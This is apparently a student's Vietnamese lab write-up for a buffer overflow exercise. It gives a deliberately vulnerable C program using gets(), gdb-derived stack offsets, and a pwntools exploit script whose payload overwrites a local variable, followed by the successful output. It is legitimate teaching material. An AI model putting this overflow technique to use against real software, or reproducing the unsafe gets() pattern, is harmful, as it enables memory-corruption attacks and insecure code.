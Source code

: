 # NT209.L21.ANTN-Bonus-19520982
## Task
```c
# include <stdio.h>
# include<stdlib.h>

int student_id;

void smash_my_buffer()
{
    int var = 0x12345678;
    int another_var = 0x0;

    char buf[20];
    gets(buf);

    if ((var != 0x12345678) || (another_var != 0))
        printf("You changed my local variables.\n");

    if (var == student_id)
           printf("Nice works. You've changed my var to %d. That's what I need :)\n",var);
    else
           printf("Almost there. My var is %d now. Try harder.\n", var);
}

int main(int argc, char *argv[])
{
    if (argc < 2)
    {
        printf("Please provide your Student ID.\nUsage: %s <your id>\n", argv[0]);
        exit(0);
    }

    student_id = atoi(argv[1]);
    smash_my_buffer();
}
```  
> Thay đổi giá trị `var` thành `student_id`.  

## Solution
Debug chương trình bằng `gdb`.  

![image](https://user-images.githubusercontent.com/44528004/121312808-f2422880-c92f-11eb-9a09-5767b314cf8b.png)  

Trong quá trình debug, ta có thấy rằng, biến `var` nằm tại địa chỉ `ebp - 0xc` và biến `another_var` nằm tại địa chỉ `ebp - 0x10`. Đồng thời, biến `buf` nằm tại vị trí `ebp - 0x24`.  

Stack:
```
+---------------------------------+
|           saved ebp             |
+---------------------------------+---> ebp của hàm smash_my_buffer()
                ...
+---------------------------------+
|           0x1234578             |
+---------------------------------+---> ebp - 0xc
|              0x0                |
+---------------------------------+---> ebp - 0x10
                ... ---> 0x14 bytes
+---------------------------------+
|               buf               |
+---------------------------------+---> ebp - 0x24
```  

Vậy để thay đổi giá trị của biến `var` tại ô nhớ `ebp - 0xc`, chúng ta cần nhập giá trị cho biến `buf` với độ dài `0x1c` (`28`) bytes. Trong đó, `20` bytes đầu để fill hết vùng nhớ của `buf`, 4 bytes tiếp theo để ghi đè biến `another_var` tại ô nhớ `ebp - 0x10`, và 4 bytes cuối cùng là giá trị `student_id`.  

Viết script exploit:  
```python
#! /bin/python3

from pwn import *

context.binary = './simple-buffer'

io = process(['./simple-buffer', '19520982'])

e = ELF('./simple-buffer')

exploit_payload = b'A' * (0x24 - 0xc) + p32(int('19520982'))
print(exploit_payload)

io.sendline(exploit_payload)
io.interactive()
```  
### Kiểm tra kết quả
```
└─$ python3 solution.py
[*] '/mnt/f/lab 6/simple-buffer'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './simple-buffer': pid 107
b'AAAAAAAAAAAAAAAAAAAAAAAA\xd6\xdd)\x01'
[*] Switching to interactive mode
[*] Process './simple-buffer' stopped with exit code 0 (pid 107)
You changed my local variables.
Nice works. You've changed my var to 19520982. That's what I need :)
[*] Got EOF while reading in interactive
$
```
> Thành công!
